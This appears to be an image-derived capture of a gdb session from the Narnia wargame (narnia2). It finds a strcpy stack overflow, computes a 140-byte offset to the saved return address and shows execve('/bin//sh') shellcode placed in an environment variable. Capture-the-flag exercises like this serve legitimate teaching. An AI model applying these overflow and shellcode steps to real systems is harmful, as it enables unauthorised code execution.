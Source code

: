 ```
0x0804845e <+58>:    mov    eax,DWORD PTR [eax]
0x08048460 <+60>:    mov    DWORD PTR [esp+0x4],eax
0x08048464 <+64>:    lea    eax,[esp+0x10]
0x08048468 <+68>:    mov    DWORD PTR [esp],eax
0x0804846b <+71>:    call   0x8048330 <strcpy@plt>
0x08048470 <+76>:    mov    eax,0x8048574
0x08048475 <+81>:    lea    edx,[esp+0x10]
0x08048479 <+85>:    mov    DWORD PTR [esp+0x4],edx
0x0804847d <+89>:    mov    DWORD PTR [esp],eax
0x08048480 <+92>:    call   0x8048320 <printf@plt>
0x08048485 <+97>:    mov    eax,0x0
0x0804848a <+102>:   leave
0x0804848b <+103>:   ret
End of assembler dump.
(gdb) b *main+97
Breakpoint 1 at 0x8048485
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /games/narnia/narnia2 AAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048485 in main ()
(gdb) x/50xw $esp
0xffffd650:     0x08048574      0xffffd660      0x00000001      0xf7ec4a79
0xffffd660:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd670:     0x41414141      0x41414141      0x00414141      0xf7e5efc3
0xffffd680:     0x08048258      0x00000000      0x00ca0000      0x00000001
0xffffd690:     0xffffd8b0      0x0000002f      0xffffd6ec      0xf7fceff4
0xffffd6a0:     0x08048490      0x08049750      0x00000002      0x080482fd
0xffffd6b0:     0xf7fcf3e4      0x00008000      0x08049750      0x080484b1
0xffffd6c0:     0xffffffff      0xf7e5f116      0xf7fceff4      0xf7e5f1a5
0xffffd6d0:     0xf7feb660      0x00000000      0x08048499      0xf7fceff4
0xffffd6e0:     0x08048490      0x00000000      0x00000000      0xf7e454b3
0xffffd6f0:     0x00000002      0xffffd784      0xffffd790      0xf7fd3000
0xffffd700:     0x00000000      0xffffd71c      0xffffd790      0x00000000
0xffffd710:     0x0804821c      0xf7fceff4
(gdb) i f
Stack level 0, frame at 0xffffd6f0:
eip = 0x8048485 in main; saved eip 0xf7e454b3
Arglist at 0xffffd6e8, args:
Locals at 0xffffd6e8, Previous frame's sp is 0xffffd6f0
Saved registers:
ebp at 0xffffd6e8, eip at 0xffffd6ec
(gdb) p 0xffffd6ec-0xffffd660
$1 = 140

(gdb) x/5s $esp+0x250
0xffffd8a0:      ",\b\256\022\066h]\a\237\071ri686"
0xffffd8b0:      "/games/narnia/narnia2"
0xffffd8c6:      'A' <repeats 27 times>
0xffffd8e2:      "SHELLCODE=1\300Ph//shh/bin\211\343P\211\342P\211\341\260\v\315\200"
0xffffd906:      "SHELL=/bin/bash"
```
